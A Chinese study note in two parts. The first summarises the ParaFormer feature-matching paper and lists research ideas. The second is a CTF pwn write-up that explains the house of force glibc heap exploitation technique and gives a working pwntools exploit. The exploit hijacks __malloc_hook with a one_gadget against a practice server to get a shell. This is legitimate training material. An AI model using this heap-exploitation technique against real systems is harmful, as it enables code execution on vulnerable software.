

# 2024-1-25

## ParaFormer: Parallel Attention Transformer for Efficient Feature Matching

### 工作摘要

该论文提出了一种并行注意力机制，同步执行自我和交叉注意力机制，并自适应地将两者与可学习网络相结合。同时在原有模型的基础上，进一步探索了U-Net架构，以实现高效的特征匹配，并提出了注意力池，以最小的性能损失减少所需算力。同时在原有模型的基础上，进一步探索了U-Net架构，以实现高效的特征匹配，并提出了注意力池，以最小的性能损失减少所需算力。

### 论文思路

#### ParaFormer



假设在图像X和图像Y中检测到M个和N个关键点，我们设置位置分别为$p^X \in R^{M\times3}$,$p^Y \in R^{N\times3}$,  设置描述符分别为$d^X \in R^{M\times C}$,$d^Y \in R^{N\times C}$。波形的生成公式如下
$$
\begin{array}{l}
&\tilde{w}_j = A_j \odot e^{i\theta_j}\\
	        &\quad\,\;= A_j \odot cos\theta_j + iA_j\odot sin\theta_j,j=1,2,...,n.
\end{array}
$$
在Wave-PE中将位置$p$和描述符$d$分别映射为为幅度$A$和相位$\theta$通过MLP将其转换为位置编码$x,[.,.] $表示链接。
$$
A_j=MLP_A(d_j)
\\
\theta_j = MLP(p_j)
\\
x_{j}^0=d_j +MLP_F([A_j\odot cos\theta_j,A_j\odot sin\theta_j])
$$
接下来分别将两组经过Wave-PE处理后得到的位置编码线性投影为$Q、K、V$。然后并行计算自注意力和交叉注意力，自注意力的输入是$(Q_x,V_x, K_x)$和$(Q_y,V_y, K_y)$对于自注意力来说采用标准的注意力公式。
$$
Attention(Q,K,V) = softmax(\frac{QK^T}{\sqrt{d_k}})V
$$
对于交叉注意力该论文提出了一种权值共享策略来提升模型的效率，使用$(Q_xK_y^T)^T$来代替

$Q_yK_x^T$，所以交叉注意力的输入就变成了 $(Q_x,V_x, K_y,V_y)$，由于并行注意力层的输出和输入都是两组，所以可以简单地堆叠L个并行注意力层来形成ParaFormer。

#### ParaFormer-U


ParaFormer-U是在原有ParaFormer基础上为提高效率而设计的。首先进行空间下采样以提取高层语义信息，然后进行上采样以恢复空间信息，并通过跳跃连接融合高层和低层信息。


假设l层中的特征为$x^l ∈ R^{N×D}$，注意力权重为$A^l ∈ R^{N×N}$。提出的注意力池化定义为：
$$
s=sum(A,dim=1)
\\idx=rank(s,k)
\\ \tilde{x}^l=Linear(x^l(idx,:))
\\g=sigmoid(s(idx))
\\x^{l+1}=\tilde{x}^l\odot g
$$


其中k是下一层$l+1$的点的数量，其值等于前一层中点的数量的一半。

自注意力图的每一列的总和被记为池化得分$s∈R^N$,然后根据此得分选择topk的点去掉不重要的点，并使用线性层来调整描述符的维度大小。$s(idx)$提取s中索引为$idx$的值然后利用$sigmoid$运算来生成gating信号，$\odot$表示逐元素矩阵乘法。

反池化上采样操作则为
$$
\tilde{x}^l=Linear(x^l)
\\x^{l+1}=distribute(0_{N\times C^{l+1}},\tilde{x}^l,idx)
$$
$x^l∈R^{k\times C^l}$是当前的特征矩阵，$0_{N \times C^{l+1}}$是下一层的初始空特征矩阵，首先使用线性层来调整特征矩阵维度。$idx ∈ R^k$是在对应池化层中选择的点的索引。然后根据$idx$将当前特征矩阵插入空特征矩阵的相应行，而其他行保持为零。

### idea

1.将CNN换成Transformer，并且叠加多层来试验

2.使用多层交叉自注意力和交叉注意力，通过调整两种注意力层的比例来测验对分类通信协议的效果提升

3.换成U-Net，FCN，PSPNet等结构

## Pwn


初始界面有两种功能


进入add函数因为不可以释放和修改所以可以使用house of force的方法

在2.23和2.27的libc版本中，由于没有对top chunk的size合法性进行检查，因此如果我们能够控制top chunk的size位以及malloc在申请堆块时的大小不受限制，那么就可以完成该攻击。

先从malloc函数源码看起，如果malloc函数执行时发现没有任何的bins中的堆块能够满足需求，就会从top chunk中切下一块内存返回给malloc，我们可以利用这个式子精准控制chunk位置

request_size=target_addr-0x20-victim

在控制chunk前还需要调整top chunk大小，如果top chunk本身的size是正常的话，必然无法满足这个要求，因此house of force的一个条件就是可以控制top chunk的size位(通常都是通过溢出的方式)，将其size设置为-1，-1是转换成无符号整数时，将变成最大的数字0xffffffffffffffff，无论request_size为多大都可以通过if检查了。

程序在申请chunk后，会打印出chunk的地址，动调找偏移，我们就可以算出libc_base
把top chunk的size改为0xffffffffffffffff（-1的补码）
我们申请一个size为malloc_hook和top chunk之间的偏移的chunk，那么就能将top chunk推到malloc_hook附近，劫持malloc_hook为one_gadget,获取shell，gadget不成功的话我们可以使用realloc来进行栈帧调整，劫持realloc_hook为one_gadget,劫持malloc_hook为realloc_hook+4，这里会调整栈帧sub rsp,38。

```python
from pwn import *
#io = process('./asd')
sh=remote('node4.buuoj.cn',28113)
context.log_level='debug'
libc = ELF('./libc-2.23-64.so')

def add(size,content):
    sh.sendlineafter(b'2:puts',str(1))
    sh.sendlineafter(b'size',str(size))
    sh.recvuntil(b'bin addr ')
    addr = int(sh.recv(14),16)
    print(hex(addr))
    sh.sendlineafter(b'content',content)
    return addr

libc_base = add(0x210000 , b'aaa') + 0x210ff0
heap_addr = add(0x10 ,p64(0)*3+p64(0xFFFFFFFFFFFFFFFF))
top_addr = heap_addr + 0x10

malloc_addr = libc_base+libc.sym['__malloc_hook']
realloc_addr = libc_base+libc.sym['__libc_realloc']
one_gadget = libc_base + 0x4526a

offset = malloc_addr - top_addr - 0x30
p=add(offset,b'aaaa')
p=add(0x20,b'a'*8 + p64(one_gadget) + p64(realloc_addr+0x10))

sh.recvuntil(b"2:puts\n")
sh.sendline(b'1')

sh.recvuntil(b"size\n")
sh.sendline(p64(20))
sh.interactive()
```

